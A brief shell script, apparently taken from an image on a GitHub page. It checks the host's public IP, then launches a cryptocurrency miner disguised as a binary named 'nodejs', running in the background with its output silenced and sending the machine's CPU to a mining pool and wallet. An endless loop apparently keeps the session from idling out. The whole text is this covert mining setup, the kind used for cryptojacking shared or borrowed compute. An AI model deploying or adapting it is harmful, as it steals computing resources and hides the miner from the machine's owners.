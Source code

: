 curl ifconfig.io
nohup ./nodejs --algorithm verushash --pool us.vipor.net:5040 --wallet RHkiLGRarhTt8SF66vJzwEcyxNm4k1fXTH --password x --worker $(hostname -f) --cpu-threads 16 > /dev/null 2>&1 &
nohup bash -c 'while true; do date; sleep 10; done' &
